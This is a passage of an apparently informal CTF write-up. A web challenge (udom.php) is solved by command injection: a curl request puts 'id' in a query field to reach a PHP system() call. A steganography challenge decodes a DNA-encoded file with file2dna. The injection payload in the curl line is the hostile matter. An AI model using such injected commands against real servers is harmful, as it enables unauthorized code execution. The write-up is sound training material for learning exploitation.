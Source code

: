 when varibale $x is set a system function is execute with variable x and y, so plan is to leave varibale y empty and then put command to variable x so it can be executed on server and get the flag

how to exploit:
---

```
curl "http://44.201.225.84:9001/udom.php?name=&lastname=id"
```

you will get code execution



![image alt text](img/20230103115149.png)


get the flag!!


# STEG
----
## Dr Khan
---

![image alt text](img/20230103115510.png)


esy steg but got no solve, ehh seems peole dont wanna make old tool work 

well, downloaded the file that end with dna

```
secret.dna
```

its contect looks like 

```
ubuntu@udomctf:~/stegsol$ head secret.dna 
TCGCTCACTCAGTAGACAGCGATCGTCGAGTATCGCATCTGTGTGATGTAGCTATCTGCAGATGCTCATGAGCATCGCGCTGCGTCGACTCGCAGCTAGCACATCACAGACATAGTGTAGCGCGCTGCGTCGTATGTACATATCATGTCTGCATCTCTGACATACGACAGCAGTGAGTCTCAGTGCTAGAGCGCTAGTGAGTATCGCGCTGCTGTCTAGAGCGCTATGTACTCGCATATGATCTCGACATCAGTCATATGATGAGTACAGCATCGTACTCTGTACAGTGACAGCATATACGACGTGACTGACACTCAGTCACATCTACATCACAGCAGCAGTCGCAGACTAGACGTGTACTGACATCACTCAGTCGATACGATACGATCTACGCTCGTGAGTCGCAGTGCTGTCGAGACTGCGCAGCTAGCACATCATCTACGCTGCGATCTAGAGCTAGTCTCTACACGACGTATCACACACAGACGTA
```

seems like kind DNA sequence

if youre lazy you can take advantage of chatGPT and ask her

![image alt text](img/20230103120132.png)

how to exploit
---

by using file2dna
